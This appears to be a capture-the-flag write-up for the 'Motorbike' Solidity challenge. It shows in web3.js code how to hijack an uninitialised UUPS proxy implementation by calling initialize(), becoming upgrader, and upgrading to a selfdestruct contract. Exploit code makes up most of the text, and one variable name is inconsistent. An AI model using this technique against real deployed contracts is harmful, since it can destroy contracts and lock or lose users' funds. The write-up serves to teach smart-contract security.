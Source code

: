 # Selfdestruct contract "Engine"

This challenge contains 2 contract. `Motorbike` is a [upgradeable proxy](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) that delegate everything to the main logic on `Engine`.

Our logical flow for this challenge should be gaining access as `upgrader`, so we can `_authorizeUpgrade` and `upgradeToAndCall` to update our contract that contains `selfdestruct`. So in summary:
<br/>
a. Become `upgrader` <br/>
b. Deploy our `selfdestruct` contract<br/>
c. call `upgradeToAndCall` to upgrade our `selfdestruct`


Reading through contract we see that the it has a variable `_IMPLEMENTATION_SLOT` which is a constant storage slot. This is a [proxy standard](https://eips.ethereum.org/EIPS/eip-1967) method for avoiding clashes of storage.

## Section A
Our storage variables on `Engine` are actually stored in the proxy contract ([Link](https://iosiro.com/blog/openzeppelin-uups-proxy-vulnerability-disclosure)). Since the storage slot of the implementation is already a constant, we can just read the context in this slot directly to find out:
```
impAddy = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
// Output a 32 byte address

impAddy = '0x' + implAddr.slice(-40)
// Remove and keep only the right most 20 byte of address
```

Now we have the contract address of `Engine`, we can directly call `initialize` by getting the first 4 bytes of the sha3 hash of the function:
```
initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")
// Get 4 bytes of sha3 hash

await web3.eth.sendTransaction({ from: player, to: impAddy, data: initializeData })
// Call the function
```
After calling `initialize` we set ourself as `upgrader`.

## Section B
Before this we should check if we are in fact the `upgrade`. Same as previous step we need to get the first 4 bytes of sha3 hash of the function:
```
upgraderData = web3.eth.abi.encodeFunctionSignature("upgrader()")
// Get first 4 bytes 

await web3.eth.call({from: player, to: impAddy, data: upgraderData}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()
// Check if we are upgrader
```
After confirming, we can move on to deploy our contract with `selfdestruct` function and get the function's first 4 bytes of sha3 hash:
```
killEngine = "<YOUR_SELFDESTRUCT_CONTRACT_ADDRESS>"

killEngineData = web3.eth.abi.encodeFunctionSignature("kill()")
// encode the function name that you set of the contract that contains selfdestruct
```

## Section C
Once `selfdestruct` contract is set, we can finally call `upgradeToAndCall` to upgrade this as our latest proxy contract. 
```
upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}
// JSON interface object of function

upgradeParams = [killEngine, killEngineData]
// The parameters to encode

upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams)
// call the function
```




